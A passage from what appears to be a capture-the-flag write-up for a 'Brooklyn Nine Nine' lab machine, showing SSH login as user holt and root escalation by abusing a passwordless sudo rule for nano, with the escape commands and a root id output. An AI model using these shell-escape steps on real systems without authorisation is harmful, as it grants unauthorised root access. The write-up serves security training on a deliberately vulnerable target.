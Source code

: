 ```
<password_that_stegcracker_found>
```

We found the password, and it seems that we can use it for `holt`. Let's `ssh holt@10.10.73.29`.

## Privilege escalation 2nd way (User Holt).
Let's see which commands are allowed to perform by sudo on user `holt`:
```
sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
We can see that `sudo` can execute `nano` command. Let's check [gtfobins](https://gtfobins.github.io/gtfobins/nano/#sudo) for the way to make privilege escalation. The steps are as follows:
- Execute the following command: `sudo nano`
- Type `^R` and `^X` to execute a command
- Type the following command: `reset; sh 1>&0 2>&0`

For some reasons it didn't work for me, so I used another way:
- Execute the following command: `sudo nano -s /bin/sh`
- Type `/bin/sh`
You can see it in the [image below](./brooklyn99_nano.png)
- Leave `nano` tool by pressing `^T`

Congratulations, now you are root again!
```
holt@brookly_nine_nine:~$ sudo nano -s /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

### Reading list:
[CTF Checklist for beginners: Steganography](https://fareedfauzi.gitbook.io/ctf-checklist-for-beginner/steganography)
